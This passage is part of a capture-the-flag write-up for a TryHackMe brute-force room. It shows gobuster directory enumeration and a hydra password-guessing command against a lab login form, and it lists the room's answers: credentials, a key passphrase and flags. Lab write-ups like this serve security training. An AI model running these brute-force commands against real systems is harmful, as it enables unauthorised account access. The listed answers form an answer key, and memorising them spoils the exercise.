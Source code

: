 ````shell
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ gobuster dir -u http://10.10.254.69/ --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.254.69/admin/]                                                                          
Progress: 1889 / 87665 (2.15%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 1909 / 87665 (2.18%)
===============================================================
Finished
===============================================================
````

## b. Getting a shell
### 1. What is the user:password of the admin panel?
#### answer : admin:xavier

### 2. Crack the RSA key you found.<br>What is John's RSA Private Key passphrase?
#### answer : rockinroll

### 3. user.txt
#### answer : THM{a_password_is_not_a_barrier}

### 4. Web flag
#### answer : THM{brut3_f0rce_is_e4sy}

---

First see the source code of the website `ip/admin` and you will get username as admin. <br>Then brute force the password using hydra.

````shell
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.254.69 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-03 13:29:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.254.69:80/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
````